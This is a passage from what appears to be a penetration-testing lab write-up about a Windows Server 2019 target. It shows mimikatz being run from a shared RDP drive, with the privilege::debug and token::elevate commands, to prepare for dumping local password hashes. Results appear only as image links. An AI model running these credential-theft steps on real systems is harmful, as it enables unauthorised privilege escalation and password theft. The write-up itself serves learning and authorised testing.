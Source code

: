 - We are now connected to the GUI of this Windows Server 2019

---

## 4.0 Dumping hashes with mimikatz

With GUI access obtained and our Windows resources shared to the target, we can now very easily use Mimikatz to dump the local account password hashes for this target.

Running mimikatz from a cmd administrator command prompt:

```bash
\\tsclient\share\mimikatz\x64\mimikatz.exe
```

Results:

![Untitled](Github%20ser%20a938a/Untitled%2020.png)

Checking privileges:

```bash
privilege::debug
```

Results:

![Untitled](Github%20ser%20a938a/Untitled%2021.png)

Elevate integrity to SYSTEM level:

```bash
token::elevate
```

Results:

![Untitled](Github%20ser%20a938a/Untitled%2022.png)
